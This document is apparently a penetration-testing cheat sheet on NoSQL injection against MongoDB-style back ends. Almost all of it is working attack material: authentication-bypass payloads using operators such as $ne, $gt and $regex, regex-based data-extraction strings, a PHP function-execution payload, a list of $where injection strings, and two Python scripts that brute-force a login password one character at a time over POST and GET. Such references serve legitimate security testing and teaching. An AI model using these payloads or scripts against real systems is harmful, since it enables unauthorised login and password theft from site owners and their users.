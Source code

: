## NoSQL injection

## Introduction
NoSQL databases provide looser consistency restrictions than traditional SQL databases. By requiring fewer relational constraints and consistency checks, NoSQL databases often offer performance and scaling benefits. Yet these databases are still potentially vulnerable to injection attacks, even if they aren't using the traditional SQL syntax.

## How to Exploit
### Authentication Bypass

Basic authentication bypass using not equal ($ne) or greater ($gt)

```
in the request
- username[$ne]=toto&password[$ne]=toto
- login[$regex]=a.*&pass[$ne]=lol
- login[$gt]=admin&login[$lt]=test&pass[$ne]=1
- login[$nin][]=admin&login[$nin][]=test&pass[$ne]=toto
```

```json
The output is
{"username": {"$ne": null}, "password": {"$ne": null}}
{"username": {"$ne": "foo"}, "password": {"$ne": "bar"}}
{"username": {"$gt": undefined}, "password": {"$gt": undefined}}
{"username": {"$gt":""}, "password": {"$gt":""}}
```

### Extract length information

```json
username[$ne]=toto&password[$regex]=.{1}
username[$ne]=toto&password[$regex]=.{3}
```

### Extract data information

```json
in URL
username[$ne]=toto&password[$regex]=m.{2}
username[$ne]=toto&password[$regex]=md.{1}
username[$ne]=toto&password[$regex]=mdp
username[$ne]=toto&password[$regex]=m.*
username[$ne]=toto&password[$regex]=md.*
in JSON
{"username": {"$eq": "admin"}, "password": {"$regex": "^m" }}
{"username": {"$eq": "admin"}, "password": {"$regex": "^md" }}
{"username": {"$eq": "admin"}, "password": {"$regex": "^mdp" }}
```

### Extract data with "in"

```json
{"username":{"$in":["Admin", "4dm1n", "admin", "root", "administrator"]},"password":{"$gt":""}}
```

### PHP Arbitrary Function Execution
```json
"user":{"$func": "var_dump"}
```

## Blind NoSQL

### POST

```python
import requests
import urllib3
import string
import urllib
urllib3.disable_warnings()
username="admin"
password=""
u="http://example.org/login"
headers={'content-type': 'application/json'}
while True:
    for c in string.printable:
        if c not in ['*','+','.','?','|']:
            payload='{"username": {"$eq": "%s"}, "password": {"$regex": "^%s" }}' % (username, password + c)
            r = requests.post(u, data = payload, headers = headers, verify = False, allow_redirects = False)
            if 'OK' in r.text or r.status_code == 302:
                print("Found one more char : %s" % (password+c))
                password += c
```

### GET

```python
import requests
import urllib3
import string
import urllib
urllib3.disable_warnings()
username='admin'
password=''
u='http://example.org/login'
while True:
  for c in string.printable:
    if c not in ['*','+','.','?','|', '#', '&', '$']:
      payload='?username=%s&password[$regex]=^%s' % (username, password + c)
      r = requests.get(u + payload)
      if 'Yeah' in r.text:
        print("Found one more char : %s" % (password+c))
        password += c
```

Another example using sleep to check vuln or not
```
'%2bsleep(1)%2b'
```

### MongoDB Payloads

```bash
true, $where: '1 == 1'
, $where: '1 == 1'
$where: '1 == 1'
', $where: '1 == 1'
1, $where: '1 == 1'
{ $ne: 1 }
', $or: [ {}, { 'a':'a
' } ], $comment:'successful MongoDB injection'
db.injection.insert({success:1});
db.injection.insert({success:1});return 1;db.stores.mapReduce(function() { { emit(1,1
|| 1==1
' && this.password.match(/.*/)//+%00
' && this.passwordzz.match(/.*/)//+%00
'%20%26%26%20this.password.match(/.*/)//+%00
'%20%26%26%20this.passwordzz.match(/.*/)//+%00
{$gt: ''}
[$ne]=1
```
## Tools
* [NoSQLmap - Automated NoSQL database enumeration and web application exploitation tool](https://github.com/codingo/NoSQLMap)
## References
* [Hacktricks](https://book.hacktricks.xyz/pentesting-web/nosql-injection)
* [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/NoSQL%20Injection/README.md)
